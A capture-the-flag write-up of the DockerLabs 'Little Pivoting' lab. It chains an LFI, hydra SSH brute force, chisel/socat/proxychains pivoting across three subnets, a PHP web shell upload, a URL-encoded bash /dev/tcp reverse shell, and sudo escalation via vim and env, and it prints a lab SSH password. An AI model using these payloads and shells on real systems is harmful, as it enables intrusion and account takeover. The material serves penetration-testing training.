## Box Info

| Name                  | Little Pivoting  | 
| :-------------------- | ---------------: |
| Release Date          | 19 April, 2024   |
| OS                    | Linux            |
| Rated Difficulty      | Medium           |

**Download lab here: https://dockerlabs.es/

# Network diagram




## Nmap

```bash
nmap -p- --open --min-rate 5000 -n -sS -vvv -Pn 10.10.10.2 -oG allports
nmap -sCV -p 22,80 10.10.10.2 -oN targeted
```

```bash
# Nmap 7.94SVN scan initiated Fri Sep 20 19:00:41 2024 as: nmap -sCV -p 22,80 -oN targeted 10.10.10.2
Nmap scan report for 10.10.10.2 (10.10.10.2)
Host is up (0.00015s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 03:cf:72:54:de:54:ae:cd:2a:16:58:6b:8a:f5:52:dc (ECDSA)
|_  256 13:bb:c2:12:f5:97:30:a1:49:c7:f9:d0:ba:d0:5e:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 20 19:00:48 2024 -- 1 IP address (1 host up) scanned in 6.66 seconds
```

The first page we found a default page from Apache, I will use feroxbuster for directory scan for found some interesting.

```bash
feroxbuster -u http://10.10.10.2/
```


http://10.10.10.2/shop/



Its a variable of php, so that means we can use a Local File Inclusion with php.



## LFI

```bash
http://10.10.10.2/shop/index.php?archivo=/etc/passwd
```

```bash
http://10.10.10.2/shop/index.php?archivo=../../../../etc/passwd
```

_By adding 'index.php' at the end of the URL, the web server interprets that a PHP file in the root directory of the website is being accessed, and then the 'archivo' parameter is used to include the specified file in the URL._



**We found 2 users:**

seller:x:1000:1000:seller,,,:/home/seller:/bin/bash
manchi:x:1001:1001:manchi,,,:/home/manchi:/bin/bash

### Brute Force Attack | SSH

```bash
hydra -l manchi -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.2 -t  4
```



```bash
> hostname -I
```



The script scans for devices on the network 20.20.20.1 to 20.20.20.254 by pinging each IP address to find out which ones are active.

```bash
#!/bin/bash

for host in $(seq 1 254); do
	timeout 1 bash -c "ping -c 1 20.20.20.$host &>/dev/null" && echo "[+] HOST - 20.20.20.$host"
done; wait
```





## Pivoting | 20.20.20.0/24

#### manchi

1. Upload chisel to victim machine

2. Execute chisel in attack machine

```bash
./chisel server -p 6150 --reverse
```



3. Execute chisel in victim machine.

As you can see, port `1080` is open by default in our machine. This port is crucial for the exchange of communications between 10.10.10.2 and our IP, {10.10.10.1}.

```bash
./chisel client {IP}:6150 R:socks
```



4. We just need to configure the proxychains. 

4. 1. uncomment `dynamic_chain` and comment `strict_chain`



4. 2. Comment socks4 and add socks5 127.0.0.1 1080



## Nmap | ProxyChains

Specify ports 22 and 80 because they are the only ones that appeared in the initial scan.

```BASH
sudo proxychains nmap -sCV -sT -Pn 22,80 20.20.20.3 2>&1 | grep -vE "timeout|OK"
```



### FoxyProxy

We gonna add the socks to foxyproxy extension in firefox for see the web page of 20.20.20.3.



We have another default page from Apache 2. I guess we have to follow the same process as before.



```bash
feroxbuster -u http://20.20.20.3/ --proxy socks5://127.0.0.1:1080
```


```bash
feroxbuster -u http://20.20.20.3/secret.php/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --proxy socks5://127.0.0.1:1080 -x php,html
```



Possible user: **Mario**

## Remote Port Forwarding

I suppose we have to do the brute force attack process again to get "mario" password, however we cannot specify a specific port for hydra, it has its own default port which is 22. Now we will bring port 22 from machine 20.20.20.3 to be our port 22, a remote port forwarding for attack the our port 22.

We need to create a new login as manchi and run again the chisel.

```bash
./chisel client 10.10.10.1:6150 R:22:20.20.20.3:22
```



```bash
./chisel server -p 6150 --reverse
```



```bash
lsof -i:22
```



## Brute Force Attack | 20.20.20.3

### Mario

```bash
hydra -l mario ssh://127.0.0.1 -P /usr/share/wordlists/rockyou.txt -t 4
```



```bash
proxychains ssh mario@20.20.20.3
```



`sudo -l`



[GTFO](https://gtfobins.github.io/gtfobins/vim/#shell)

```bash
sudo vim -c ':!/bin/sh'
```



Run againt the script.



## Pivoting | 30.30.30.0/24

We send the chisel bin from 20.20.20.2(manchi) to 20.20.20.3(Mario).





Now we will use **socat**, which will allow us, from the machine 30.30.30.2, to connect with chisel to the machine 20.20.20.2, and the machine 20.20.20.2 will redirect that connection to 10.10.10.1, which is us.

https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat



```bash
manchi 20.20.20.2
./socat TCP-LISTEN:1111,fork TCP:10.10.10.1:6150
```



1. **Connection from 20.20.20.3 to 20.20.20.2**: The machine 20.20.20.3 connects to the compromised machine (20.20.20.2) on port 1111 using chisel and the fork option allows handling multiple connections simultaneously..

2. **Redirection by socat**: When a connection is established on port 1111 of 20.20.20.2, socat redirects that connection to the machine 10.10.10.1 on port 6150.

```bash
root 20.20.20.3
./chisel client 20.20.20.2:1111 R:1111:socks
```



3. **Data flow**: This allows any traffic that arrives at port 1111 on 20.20.20.2 to be sent to 10.10.10.1:6150, and vice versa, enabling communication between 20.20.20.3 and 10.10.10.1 through the compromised machine.



```java
2024/09/21 00:48:54 server: session#4: tun: proxy#R:127.0.0.1:1111=>socks: Listening
```

### Nmap | 30.30.30.3

```bash
sudo proxychains nmap -sCV -sT -Pn -p 22,80 30.30.30.3 2>&1 | grep -vE "timeout|OK"
```

We have only port 80 open.



## RCE

config the foxyproxy for visualizer the web page



I will upload empty file for see if found some error when upload the empty file.



```bash
feroxbuster -u http://30.30.30.3/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --proxy socks5://127.0.0.1:1111 -x php,html,js,txt
```



```python
<?php 
system($_GET['cmd']);
__HALT_COMPILER();
?>
```



For get a reverse shell we need to log in as mario.
(proxychains ssh mario@20.20.20.3 | chocolate)







```bash
root 20.20.20.3
./socat TCP-LISTEN:443,fork TCP:20.20.20.2:442 
```

```bash
manchi 20.20.20.2
./socat TCP-LISTEN:442,fork TCP:10.10.10.1:441
```



```python
http://30.30.30.3/uploads/f.php?cmd=bash+-c+%27bash+-i+%3E%26+/dev/tcp/30.30.30.2/443+0%3E%261%27
```


## Privilege Escalation | SUID


sudo -l



[GTFO-Env](https://ubh.natro92.fun/gtfobins/env/#sudo)

sudo env /bin/bash



Pwned!

